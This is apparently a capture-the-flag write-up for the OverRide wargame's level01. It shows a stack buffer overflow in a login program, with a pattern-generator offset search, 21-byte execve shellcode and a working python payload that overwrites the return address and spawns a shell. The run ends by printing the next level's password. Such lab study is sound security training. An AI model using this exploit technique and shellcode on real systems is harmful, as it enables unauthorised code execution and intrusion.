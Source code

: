 after checking the assembly, we find the expect username is dat_wil and password is admin, and when we try : 
```level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
admin
nope, incorrect password...
```
no matter what password, we type, we get "nope, incorrect password..."

we find that The first fgets() is used the global var[100], with lenght 100 but in the case of the second fgets(), we can see that it uses a local stack buffer and that its size parameter is 100 which is bigger than the available space in the stack frame(96). it's a buffer overflow vulnerability, allowing an attacker to overwrite the saved EIP and redirect execution to injected shellcode. 
also it disable NX, means NX (No-eXecute) is a security feature that marks certain memory regions (like the stack or heap) as non-executable. so it does not prevent it, we can exploit that.

+-----------------+ <- High memory address (e.g., 0xfffffff0)
| Return Address  | (Saved %eip, overwritten during overflow)
+-----------------+
| Saved %ebp      | (Base pointer of the previous stack frame)
+-----------------+
| password_buffer | <- Starts at `0x1c(%esp)` (28 bytes offset from %esp)
|                 |    (Overflow starts here)
|                 |
| Local Variables | (96 bytes allocated for local variables)
+-----------------+ <- Low memory address (e.g., 0xffffffa0)

1. find the offset by pattern generator
```(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
'6aC7'
offset 80 bytes

so we can do
1. username (dat_wil + shellcode) is stored in the global buffer.
2. The password input overflows the local stack buffer and overwrites the saved return address (EIP) with the address of the shellcode.
3. When the function returns, execution jumps to the shellcode(global buffer+ 7), spawning a shell.

Shellcode (21 bytes):
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
https://shell-storm.org/shellcode/files/shellcode-752.html

```level01@OverRide:~$ python -c "print 'dat_wil' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\n' + 'A' * 80 + '\x47\xa0\x04\x08'" > /tmp/level01
level01@OverRide:~$ cat /tmp/level01 - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

cat /home/users/level02/.pass            
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
